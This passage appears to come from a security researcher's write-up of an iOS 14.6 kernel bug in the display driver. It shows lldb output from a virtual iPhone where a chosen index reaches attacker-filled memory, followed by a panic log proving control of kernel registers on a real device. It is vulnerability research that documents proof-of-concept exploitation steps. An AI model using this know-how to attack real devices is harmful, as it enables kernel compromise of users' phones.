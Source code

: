 After doing this shape, I triggered the bug with an index that I found reliable by dumping the memory (debugging virtual iPhone XR, 14.6, 18F72):

```bash
(lldb) c
Process 1 resuming
Process 1 stopped
* thread #1, stop reason = breakpoint 1.1
    frame #0: 0xfffffff0090dfa30
->  0xfffffff0090dfa30: ldr    x2, [x9, x11, lsl #3]
    0xfffffff0090dfa34: ldr    x3, [sp, #0x18]
    0xfffffff0090dfa38: bl     -0xff79b3ff8
    0xfffffff0090dfa3c: str    w0, [sp, #0x10]
Target 0: (No executable module.) stopped.
(lldb) x/8gx $x9
0xffffffe4ccb0ca98: 0x0000000000000000 0x0000000000000000
0xffffffe4ccb0caa8: 0x0000000000000000 0x0000000000000000
0xffffffe4ccb0cab8: 0x0000000000000000 0x0000000000000000
0xffffffe4ccb0cac8: 0x0000000000000000 0x0000000000000000
(lldb) x/8gx $x9+$x11*8
0xffffffe4cdd0dad8: 0x0041414141414141 0x4141414141414141
0xffffffe4cdd0dae8: 0x0041414141414141 0x4141414141414141
0xffffffe4cdd0daf8: 0x0041414141414141 0x4141414141414141
0xffffffe4cdd0db08: 0x0041414141414141 0x4141414141414141
(lldb) 
```

And therefore, we can run the POC on the physical device (after adding 1 to our index, to get 0x4141414141414141 without the 0 in the MSB), and:

```text
iPhone:~ root# cat /var/mobile/Library/Logs/CrashReporter/panic-full-2021-07-19-063405.000.ips 
{"bug_type":"210","timestamp":"2021-07-19 06:34:05.00 +0300","os_version":"iPhone OS 14.6 (18F72)","incident_id":"EE6BC08D-95C1-4E42-AD96-37A7C6AAF17A"}
{
  "build" : "iPhone OS 14.6 (18F72)",
  "product" : "iPhone10,3",
  "kernel" : "Darwin Kernel Version 20.5.0: Sat May  8 02:21:43 PDT 2021; root:xnu-7195.122.1~4\/RELEASE_ARM64_T8015",
  "incident" : "EE6BC08D-95C1-4E42-AD96-37A7C6AAF17A",
  "crashReporterKey" : "c23fc969fde41f6a019ad70f23f4a4c24a0dda2a",
  "date" : "2021-07-19 06:34:05.91 +0300",
  "panicString" : "panic(cpu 1 caller 0xfffffff01a3072d4): Kernel data abort. at pc 0xfffffff01a655334, lr 0xfffffff01a655320 (saved state: 0xffffffe815c4b3a0)\n\t  x0: 0x0000000000000001  x1:  0xffffffe4ccb2fa00  x2:  0x4141414141414141  x3:  0x0000000000000000\n\t  x4: 0x0000000000000000  x5:  0x0000000000000000  x6:  0x0000000000000000  x7:  0x00000000000002b0\n\t  x8: 0xfffffff01a1bd0c4  x9:  0x0000000000000001  x10: 0xffffffe8023a0000  x11: 0x3ffffff932ed8002\n\t  x12: 0x0000000000000002 x13: 0x0000000000000002  x14: 0xffffffe19d5f59a8  x15: 0x0000000000000003\n\t  x16: 0x0000000000000000 x17: 0x0000000000000007  x18: 0xfffffff01a2f5000  x19: 0x4141414141414141\n\t  x20: 0x0000000000000001 x21: 0x0000000000000000  x22: 0xffffffe4cbb60040  x23: 0x00000000e00002c2\n\t  x24: 0x0000000000000000 x25: 0xffffffe815c4baec  x26: 0xffffffe4cd0be2f0  x27: 0xffffffe4cd119264\n\t  x28: 0x0000000000000000 fp:  0xffffffe815c4b710  lr:  0xfffffff01a655320  sp:  0xffffffe815c4b6f0\n\t  pc:  0xfffffff01a655334 cpsr: 0x20400204         esr: 0x96000004          far: 0x4141414141414141\n\nDebugger message: panic\nMemory ID: 0x1\nOS release type: User\nOS version: 18F72\nKernel version: Darwin Kernel Version 20.5.0: Sat May  8 02:21:43 PDT 2021; root:xnu-7195.122.1~4\/RELEASE_ARM64_T8015\nKernel UUID: 64DBB08A-59ED-3D69-A79D-DC5564BA9876\niBoot version: pongoOS-2.5.0-0cb6126f\nsecure boot?: YES\nPaniclog version: 13\nKernel slide:      0x0000000012208000\nKernel text base:  0xfffffff01920c000\nmach_absolute_time: 0xe8148af5\nEpoch Time:        sec       usec\n  Boot    : 0x60f4f1dc 0x00086314\n  Sleep   : 0x00000000 0x00000000\n  Wake    : 0x00000000 0x00000000\n  Calendar: 0x60f4f264 0x0000e35b\n\nPanicked task 0xffffffe19d27a5e0: 101 pages, 1 threads: pid 591: appleclcd_exploi\nPanicked thread: 0xffffffe19d632e00, backtrace: 0xffffffe815c4aba0, tid: 4713\n\t\t  lr: 0xfffffff019c8a1cc  fp: 0xffffffe815c4abf0\n\t\t  lr: 0xfffffff019c8a024  fp: 0xffffffe815c4ac60\n\t\t  lr: 0xfffffff019db36dc  fp: 0xffffffe815c4ad30\n\t\t  lr: 0xfffffff01a2f55fc  fp: 
...
```
